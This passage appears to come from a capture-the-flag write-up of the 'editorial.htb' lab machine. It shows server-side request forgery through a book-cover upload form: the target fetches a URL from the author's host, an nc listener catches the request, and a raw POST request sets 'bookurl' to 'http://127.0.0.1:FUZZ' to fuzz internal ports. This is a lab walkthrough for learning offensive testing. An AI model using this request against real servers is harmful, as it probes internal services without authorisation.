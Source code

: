 I test with a 404 url of `10.10.14.21/x.jpg` and the server attempts to retrieve it:

Interestingly it doesn't fail, it just creates a file in `/uploads` called `5e0331bb-eff4-47ea-bea2-f6da57e2e62c`.

When I look at the contents of the file, it looks like the 404 message from my server:

```html
<!DOCTYPE HTML>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 404</p>
        <p>Message: File not found.</p>
        <p>Error code explanation: 404 - Nothing matches the given URI.</p>
    </body>
</html>
```

Here's the request coming back from the target:

```http
$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.20] 52134
GET /foo.jpg HTTP/1.1
Host: 10.10.14.21:8888
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

Since I can see the results of the HTTP request in the "image" file, I thought maybe I could fuzz for `localhost` ports. So, I used this request:

```http
$ cat req
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------230055699114989147201318430837
Content-Length: 362
Origin: http://editorial.htb
DNT: 1
Connection: keep-alive
Referer: http://editorial.htb/upload

-----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------230055699114989147201318430837--
```
